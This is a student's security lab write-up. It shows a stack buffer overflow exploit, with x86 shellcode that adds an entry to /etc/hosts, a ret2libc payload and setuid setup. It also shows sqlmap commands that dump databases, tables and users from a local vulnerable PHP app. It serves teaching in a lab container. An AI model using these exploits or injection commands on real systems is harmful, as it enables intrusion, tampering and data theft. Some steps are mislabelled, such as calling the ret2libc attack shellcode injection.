# Lab #1,22110033, Le Minh Huy, INSE331280E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program in `vuln.c`

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm in `sh.asm`. This shellcode add a new entry in hosts file

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

## 1. Run Docker `img4lab`:
*First, we write a message and save it in a text file:*<br>

```docker
docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
```



Verify current folder for newly created file

## 2. Turn off ASLR (Address Space Layout Randomization):

```sh
sudo sysctl -w kernel.randomize_va_space=0
```



ASLR should be turn off because its randomized provision memory address, which will help the lab easy to work on.

## 3. Compile `sh.asm` into a program as `sh`:

`cd` is command for go to the working session.\

```sh
cd seclabs/buffer-overflow/lab1/
nasm -g -f elf sh.asm
```



File `sh.asm` will be compile as `sh.o` as the screenshot.

```sh
ld -m elf_i386 -o sh sh.o
```



Use the `ld` command to combine `sh.o` file to an executable file named `sh`.

## 4. Compile `vuln.c` program:

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```



`vuln.c` program is compiled into `vuln.out` can be seen in the upper screenshot.

## 5. Create Environment variables:

```sh
export exploit_path="/home/seed/seclabs/buffer-overflow/lab1/sh"
```



Use `env` to check the environment variables. The `exploit_path` can be seen in the upper screenshot.

## 6. Give the `sh` program the root privilege with Privilege Escalation:

```sh
ls -l sh
```



The privilege of `sh` program is as seed. But look at the privilege that seed can interact with `/etc/hosts` file is **read-only**.



So we need to do some code for `sh` program have the root modification on `etc/hosts`.

```sh
sudo chown root sh
sudo chmod 4755 sh
```



The `sh` file is marked in red now which mean the privilege of it when running is as root privilege.

## 6. Find `system`, `exit`, `sh` with gdb `vuln.out`:

But first, you need to see the big picture about the stack of `vuln.out`.



then, start debugging to see the **main** function structure with following code.

```sh
gdb -q ./vuln.out
```

```sh
start
```

```sh
p system
p exit
find /home/seed/seclabs/buffer-overflow/lab1/sh
```



All `system`, `exit` and `sh` memory address were printed and can be seen in the upper screenshot.

## 7. Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on linux with Environment Variable:

Format of input attack are:

`r $(python -c "print(20 * 'a' + 'system_memory_address' + 'exit_memory_address' + 'sh_memory_address')")`

So in my case, the input is:

```sh
r $(python -c "print(20 * 'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x25\xdf\xff\xff')")
```

Then stop gdb with `q`.

## 8. Check the `/etc/hosts`:

```sh
cat /etc/hosts
```



The `127.1.1.1 google.com` is added after all the attack, can be seen in the red box on the screenshot.

>\
>p/s the upper screenshot is `/etc/hosts` before the attack.

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection.

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

## 1. Start docker container from SQLi

```sh
docker-compose up --build
```

## 2. Install sqlmap

```sh
git clone https://github.com/sqlmapproject/sqlmap
```

**Question 1**: Use sqlmap to get information about all available databases\
**Answer 1**:

## 1. Open and login to <http://localhost:3128/>:

Open browser and enter <http://localhost:3128/> then login it with user account.



usernme: `seedsamy`
password: `seedsamy`

## 2. Edit profile of user:



First, you need to open the **Developer Tools** on browser by Right-Click and select Inspect Element, then Choose **Network** tab on Developer Tools.



Click on to `Edit Profile` button and then fill all the box with information.

After all, click `save`.

## 3. Watch the package sent by browser:



At the network tab, you should have a `.php` GET package. That will have the cookie of user.



In the payload, you should have all information that you've sent in Edit Profile session.

## 4. Now use sqlmap to find all available databases:

Now open sqlmap in command prompt, your input have the following form:

`python sqlmap.py -u "url" --cookie="user_cookie" --data="payload_data" --dbs `

In my case, the command could be:

```sh
py sqlmap.py -u "http://localhost:3128/unsafe_edit_backend.php?NickName=Huy&Email=huy%40gmail.com&Address=1111&PhoneNumber=0829174988&Password=huy" --cookie="PHPSESSID=lq8dlk5c5o88k1gejsr5k04jc9; security=medium" --dbs
```



Conclusion: You can use sql to extract databases from vulnarable database/website.

**Question 2**: Use sqlmap to get tables, users information\
**Answer 2**:

## 5. Use sql map to find all tables and user information:

```sh
py sqlmap.py -u "http://localhost:3128/unsafe_edit_backend.php?NickName=Huy&Email=huy%40gmail.com&Address=1111&PhoneNumber=0829174988&Password=huy" --cookie="PHPSESSID=lq8dlk5c5o88k1gejsr5k04jc9; security=medium" --tables
```



```sh
py sqlmap.py -u "http://localhost:3128/unsafe_edit_backend.php?NickName=Huy&Email=huy%40gmail.com&Address=1111&PhoneNumber=0829174988&Password=huy" --cookie="PHPSESSID=lq8dlk5c5o88k1gejsr5k04jc9; security=medium" --users
```

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit\
**Answer 3**:

